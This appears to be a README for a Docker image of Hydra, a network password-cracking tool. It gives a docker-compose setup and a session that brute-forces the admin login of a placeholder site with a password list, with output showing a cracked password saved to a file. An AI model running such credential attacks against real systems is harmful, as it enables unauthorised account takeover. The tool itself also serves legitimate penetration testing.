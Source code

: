 hydra
=====

A very fast network logon cracker which support many different services.

- [x] openssl
- [x] idn
- [x] curses
- [x] pcre
- [x] Postgres
- [x] SVN
- [ ] firebird
- [x] MYSQL client
- [ ] AFP
- [ ] NCP
- [ ] SAP/R3
- [x] libssh
- [ ] Oracle
- [ ] GUI req's
- [x] Android specialities
- [x] secure compile option support in gcc

## docker-compose.yml

```yaml
version: "3.8"
services:
  hydra:
    image: vimagick/hydra
    entrypoint: sleep
    command: infinity
    volumes:
      - ./data:/data
    working_dir: /data
    restart: unless-stopped
```

# up and running

```bash
$ docker-compose up -d

$ docker-compose exec hydra bash

>>> cat passwd.txt
    123456
    admin
    ...

>>> hydra -l admin -P passwd.txt -o hacked.txt http://www.target.com/login.php
    [DATA] max 1 task per 1 server, overall 64 tasks, 3 login try (l:1/p:1), ~0 tries per task
    [DATA] attacking service http-get on port 2812
    [2812][http-get] host: www.target.com   login: admin   password: admin
    1 of 1 target successfully completed, 1 valid password found

>>> cat hacked.txt
    [2812][http-get] host: www.target.com   login: admin   password: admin
```
